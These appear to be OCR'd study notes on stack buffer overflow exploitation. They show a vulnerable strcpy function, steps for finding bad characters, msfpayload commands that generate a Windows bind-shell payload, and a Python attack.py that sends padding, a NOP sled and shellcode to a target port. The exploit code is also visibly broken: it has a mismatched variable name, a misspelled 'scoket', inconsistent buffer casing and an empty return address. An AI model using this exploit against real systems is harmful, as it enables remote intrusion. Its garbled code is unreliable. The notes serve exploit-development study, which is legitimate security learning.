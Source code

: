 	
Vulnerable Code - using Strcpy()

	int VulnerableFunction(char *userInput)
	{
		char buffer[256];
		strcpy(buffer, input);
		return 1;
	} 

Bad Characters

	• Are used to delimit input from the user
	• E.g.
		○ End of string input is denoted by NULL byte which is 0x00
		○ End of HTTP header field is denoted by \r\n
	• Bad characters break the input which we can send to the vulnerable program 

Finding Bad Characters 

	1. Send program the full list of characters from 0x00 to 0xFF
	2. Check using debugger if input breaks
	3. If so, find the character which breaks it
	4. Remote that character from the list and go back to 1
	5. If input no longer breaks, the rest of the characters can be used 

Address Contains 0x00 in it 



Successful Exploitation 




	# msfpayload -l 
	# msfpayload windows/shell_bind_tcp R |msfencode -a x86 -b "\x00" -t c 
	"msfpayload_buffer"
	
	# vim attack.py 
	--------------------
	#!/usr/bin/env python 
	
	import socket, sys
	
	sock = socket.socket(scoket.AF_INET, socket.SOCK_STREAM)
	sock.connect((sys.argv[1], 10000))
	
	buffer = "A"*268
	Buffer += ""
	Buffer += "\x90"*20
	Buffer += ("msfpayload_buffer")
	
	sock.send(buffer)
	sock.close() 
	--------------------
	